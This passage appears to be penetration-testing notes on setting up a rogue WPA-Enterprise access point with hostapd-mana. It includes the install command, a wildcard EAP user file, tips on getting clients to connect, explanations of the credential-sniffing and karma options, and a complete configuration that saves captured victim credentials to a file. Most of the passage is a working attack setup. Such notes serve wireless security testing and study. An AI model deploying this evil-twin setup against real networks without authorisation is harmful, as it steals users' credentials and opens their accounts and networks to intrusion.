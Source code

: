 
The client error during the make command can be ignored, it's not necessary to create client certificates to get their hashes when they connect to us. 

Run the command ``make destroycerts`` if you had previously created certificates, to start anew

If you don't have it, install hostapd-mana to create the fake Access Point:
``sudo apt install hostapd-mana``

Also create the file `/etc/hostapd-mana/mana.eap_user`. Add the following contents to increase the chances of clients being able to connect to our fake AP

```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


### hostapd-mana for wpa-enterprise
TIPS:
- For testing you may need to change your client settings and turn off and on the wifi, while hostapd-mana remains running all the time, capturing creentials when connection attempts happen, and only if the configuration of the client is the right one for hostapd-mana to get hashes or credentials (EAP connections). at times hostapd-mana may behave strangely after many failed connections, just rerun it, but remember that most of the tweaking happens on the client when messing with the configuration, or if we want to generate traffic, just keep hostapd-mana running and turn off and on wifi on the client after changing the config.
- The channel doesn't matter, but if we use the same as the original it's easier to monitor both networks at once with airodump
- Disable monitor mode to host an AP with hostapd-mana
- If we don't clone the BSSID the channel we use doesn't matter, but if we clone it, we must use a different channel to avoid errors
- mana adds functions that hostapd doesn't have

#### Options in the configuration files of hostapd-mana
- mana_wpe=1 -> to sniff credentials
- mana_eapsuccess=1 -> To let the victim know that he was successful when connecting to us
- mana_credout=``<file>`` -> Saves creds to a file
- eap_server=1 -> Use the internal EAP server, not an external one
- enable_mana=1 -> karma attack, respond to every client that tries to connect to us, making him believe that we are the SSID that he is probing

```
interface=wlan1
ssid=<ESSID>
hw_mode=g
channel=6
auth_algs=3
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
ieee8021x=1
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
mana_credout=hostapd.creds
```
